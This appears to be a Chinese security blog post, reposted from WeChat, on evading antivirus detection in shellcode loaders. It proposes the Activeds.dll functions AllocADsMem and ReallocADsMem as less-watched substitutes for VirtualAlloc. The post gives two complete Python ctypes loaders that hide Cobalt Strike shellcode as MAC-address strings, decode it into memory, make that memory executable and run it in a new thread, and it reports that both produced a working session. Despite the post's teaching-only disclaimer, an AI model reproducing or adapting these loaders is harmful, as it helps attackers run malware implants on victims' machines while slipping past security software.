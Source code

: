> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/CSi7iQCg25AIfmqWNAYrhQ)

![](https://mmbiz.qpic.cn/mmbiz_jpg/zbTIZGJWWSOQ9SWrLfzL4apvGB2FhZe46WXEHMneBZkic7vBtA7LotDtaC8DdqkLGVxdCcUj4Hm1Zb0W55CdqKg/640?wx_fmt=jpeg)

一位苦于信息安全的萌新小白帽

本实验仅用于信息防御教学，切勿用于它用途

公众号：XG 小刚

**内存申请**  

在现在许多的 **shellcode 加载器**中，内存申请是必不可少的一部分，常用的就是 VirtualAlloc 函数来申请一块动态内存来存放我们的 shellcode。  

再后来，为了逃避检测申请内存的行为，采用了渐进式加载模式，也就是申请一块可读可写不可执行的内存，使用 VirtualProtect 函数将内存区块设置为可执行，从而规避检测。

然而现在也有杀软对 VirtualAlloc 和 VirtualProtect 连用进行查杀。。。。

新发现

在前几天找《[mac，ipv4](http://mp.weixin.qq.com/s?__biz=MzIwOTMzMzY0Ng==&mid=2247485833&idx=1&sn=82c2f120b6c5058dc9afcc4eeefb89b5&chksm=97743568a003bc7e9e62e90d2353ecb17c2761a492b494417290b85e7fd39a8da3d9c5d6d249&scene=21#wechat_redirect)》那些内存加载函数时，一同发现了两个有意思的 AllocADsMem 和 ReallocADsMem 函数，竟然能申请内存？哎嗨？好玩。今就研究研究能利用一下不。

函数介绍

AllocADsMem  

该函数在 Activeds.dll 库中，可以分配的指定大小的存储块。

函数原型：  

```
https://docs.microsoft.com/en-us/windows/win32/api/adshlp/nf-adshlp-allocadsmem
```

```
LPVOID AllocADsMem(
  DWORD cb
);
```

参数是要分配的内存大小，成功调用则返回一个指向已分配内存的非 NULL 指针， 如果不成功，则返回 NULL。  

看这描述就是申请一个内存啊，但是测试发现该内存可读可写不可执行，所以可以用 VirtualProtect 修改为可执行属性

```
ptr1 = ctypes.windll.Activeds.AllocADsMem(len(shellcode))
ctypes.windll.kernel32.VirtualProtect(ptr1, len(shellcode), 0x40, ctypes.byref(ctypes.c_long(1)))
```

ReallocADsMem

该函数在 Activeds.dll 库中，可以复制指定内存内容，并新申请一块内存用来存储

函数原型：  

```
https://docs.microsoft.com/en-us/windows/win32/api/adshlp/nf-adshlp-reallocadsmem
```

```
LPVOID ReallocADsMem(
  LPVOID pOldMem,
  DWORD  cbOld,
  DWORD  cbNew
);
```

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSOQ9SWrLfzL4apvGB2FhZe4ZQT8cYjPk8lMCicfVTVw3zKdbdASgrdSxQR0g9fOVz5CUQzuUHJYDTA/640?wx_fmt=png)

调用成功返回一个指向新分配内存的指针，否则返回 NULL。  

看介绍啊，这个函数干了两个函数的事，申请内存和复制内存，但是只能从内存中复制

但是我们就是愁怎么往内存中复制内容，所以这个函数看着很鸡肋

但是突发奇想，这函数能不能混淆视线，用 AllocADsMem 申请的内存我不用就是玩，我用 ReallocADsMem 将内容复制出来申请一个新内存，将该内存改为可执行。

```
ptr2 = ctypes.windll.Activeds.ReallocADsMem(ptr,len(shellcode),len(shellcode))
ctypes.windll.kernel32.VirtualProtect(ptr2, len(shellcode), 0x40, ctypes.byref(ctypes.c_long(1)))
```

测试

使用的 **mac 加载器**，测试的将 VirtualAlloc 替换为 AllocADsMem 函数，并改为可执行内存  

环境 py2.7，使用 cs 生成的 64 位 shellcode

```
import ctypes

shellcode = b"\xfc\x48\x83\"

macmem = ctypes.windll.Activeds.AllocADsMem(len(shellcode)/6*17)
for i in range(len(shellcode)/6):
     bytes_a = shellcode[i*6:6+i*6]
     ctypes.windll.Ntdll.RtlEthernetAddressToStringA(bytes_a, macmem+i*17)

list = []
for i in range(len(shellcode)/6):
    d = ctypes.string_at(macmem+i*17,17)
    list.append(d)

ptr = ctypes.windll.Activeds.AllocADsMem(len(list)*6)
rwxpage = ptr
for i in range(len(list)):
    ctypes.windll.Ntdll.RtlEthernetStringToAddressA(list[i], list[i], rwxpage)
    rwxpage += 6

ctypes.windll.kernel32.VirtualProtect(ptr, len(list)*6, 0x40, ctypes.byref(ctypes.c_long(1)))
handle = ctypes.windll.kernel32.CreateThread(0, 0, ptr, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
```

成功上线  

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSOQ9SWrLfzL4apvGB2FhZe4XGCqYrz9SPjlyKVlEwwQXHlwaLbF6HiaNKjjEy5fYuD4JN1d24Ns32Q/640?wx_fmt=png)

接下来用 ReallocADsMem 来混淆一下视线，AllocADsMem 申请的内存可读可写即可，ReallocADsMem 申请的内存改为可执行  

相同环境，测试上线

```
import ctypes

shellcode = b"\xfc\x48\x83......"

macmem = ctypes.windll.Activeds.AllocADsMem(len(shellcode)/6*17)
for i in range(len(shellcode)/6):
     bytes_a = shellcode[i*6:6+i*6]
     ctypes.windll.Ntdll.RtlEthernetAddressToStringA(bytes_a, macmem+i*17)

list = []
for i in range(len(shellcode)/6):
    d = ctypes.string_at(macmem+i*17,17)
    list.append(d)

ptr = ctypes.windll.Activeds.AllocADsMem(len(list)*6)
rwxpage = ptr
for i in range(len(list)):
    ctypes.windll.Ntdll.RtlEthernetStringToAddressA(list[i], list[i], rwxpage)
    rwxpage += 6

ptr2 = ctypes.windll.Activeds.ReallocADsMem(ptr,len(list)*6,len(list)*6)
ctypes.windll.kernel32.VirtualProtect(ptr2, len(list)*6, 0x40,ctypes.byref(ctypes.c_long(1)))

handle = ctypes.windll.kernel32.CreateThread(0, 0, ptr2, 0, 0, 0)
ctypes.windll.kernel32.WaitForSingleObject(handle, -1)
```

依旧成功上线  

![](https://mmbiz.qpic.cn/mmbiz_png/zbTIZGJWWSOQ9SWrLfzL4apvGB2FhZe4libkZMCiaDFFKjzjw6nCjL7pETK2BO6tasx1hsaK41CvwpibZJr0EbNaw/640?wx_fmt=png)

小结

免杀没有测试，只是分享思路，申请内存函数不只是那一个能用。

公众号
